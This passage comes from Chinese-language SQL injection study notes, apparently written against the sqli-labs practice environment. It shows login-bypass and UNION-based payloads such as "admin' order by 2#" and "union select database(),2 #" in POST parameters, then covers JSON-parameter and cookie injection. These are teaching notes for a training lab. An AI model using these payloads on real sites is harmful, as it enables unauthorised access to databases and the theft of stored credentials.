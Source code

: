 ```bash
    -> ;
+----------+----------+
| username | password |
+----------+----------+
| 1        | 2        |
+----------+----------+
1 row in set (0.00 sec)

mysql>
```

将order by 3改为2查看<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1624243355285-372c596a-8a9d-4ca8-9a29-af3d6b7948db.png#clientId=u27436e4c-6830-4&from=paste&height=519&id=u1801c7f5&originHeight=1038&originWidth=1920&originalType=binary&ratio=2&size=313513&status=done&style=none&taskId=ucc6e56b9-74ee-41f3-87a3-b513daeb26f&width=960)
```bash
uname=admin' order by 2#&passwd=admin&submit=Submit			
```
这里看到我们登陆成功，但实际上我们登陆的用户名和密码是错误的因为只是将sql语句注入进去没有报错下面的语句正常的执行就显示登陆成功，换句话说登录到情况只有两个字段。很可能就是用户名和密码。

枚举出数据库名称:
```bash
uname=admin' and 1=2 union select database(),2 #&passwd=admin&submit=Submit
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1624244411382-f6df356e-00e3-42e0-bf40-e171ec72c05d.png#clientId=u27436e4c-6830-4&from=paste&height=433&id=u92634a48&originHeight=865&originWidth=1919&originalType=binary&ratio=2&size=375480&status=done&style=none&taskId=ua8efd111-2b4e-4156-89ec-e4ab919dfed&width=959.5)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1624244556975-7ae64a8f-ca9a-4437-b392-25ef4d5dbd73.png#clientId=u27436e4c-6830-4&from=paste&height=476&id=ub5c19a82&originHeight=952&originWidth=1920&originalType=binary&ratio=2&size=337149&status=done&style=none&taskId=u75bc553b-bb42-4bbf-b92d-c4db8539aae&width=960)
<a name="rufZ0"></a>
### 3、参数JSON数据注入测试
=>本地环境代码演示<br />json格式<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1624337366270-9545e393-0955-4f43-8628-4fb037a0cd53.png#clientId=ua752d66c-6d8f-4&from=paste&height=408&id=u0f98746d&originHeight=815&originWidth=1436&originalType=binary&ratio=2&size=494133&status=done&style=none&taskId=u1613d504-40eb-4957-9bc5-2110a65135b&width=718)<br />json注入<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1624337757521-14b7e701-9024-4ef6-9696-83c7fcef0409.png#clientId=u41a4f6e1-19c7-4&from=paste&height=228&id=u9622cfca&originHeight=374&originWidth=1168&originalType=binary&ratio=2&size=310894&status=done&style=none&taskId=ufb4e1b09-c247-42ca-a139-6c78384d433&width=711)

注入方式：如果是数字的可以不加'闭合如果是字符的话，加上"闭合
<a name="OlRjb"></a>
### 4、COOKIE数据提交注入测试
=>sqlilabs less 20<br />**网站传递参数的方式**

| **参数类型** | **含义** |
| --- | --- |
| get型 | 一般访问网页的行为 |
| cookie型 | 伴随着所有访问网页的行为 |
| post型 | 上传文件，登陆 |

**cookie注入原理：**对get传递来的参数进行了过滤，但是忽略了cookie也可以传递参数。
> 【cookie注入的原理在于更改本地的cookie，从而利用cookie来提交非法语句。】 
